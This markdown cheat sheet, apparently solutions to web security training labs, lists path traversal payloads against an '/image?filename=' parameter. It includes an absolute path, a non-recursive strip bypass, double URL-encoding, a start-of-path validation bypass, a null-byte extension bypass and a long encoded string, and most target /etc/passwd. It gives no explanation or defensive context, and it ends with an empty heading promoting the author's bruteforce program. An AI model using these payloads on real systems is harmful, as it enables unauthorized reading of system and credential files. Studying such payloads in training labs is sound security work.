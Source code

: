## File path traversal, traversal sequences blocked with absolute path bypass

```
/image?filename=/etc/passwd
```

## File path traversal, traversal sequences stripped non-recursively

```
/image?filename=..././..././..././etc/passwd
```

## File path traversal, traversal sequences stripped with superfluous URL-decode

```
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

## File path traversal, validation of start of path

```
/image?filename=/var/www/images/../../../../etc/passwd
```

## File path traversal, validation of file extension with null byte bypass

```
../../../../../../etc/passwd%00.jpg
```

## Encoded

```
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```

## Use my program for path traversal bruteforce

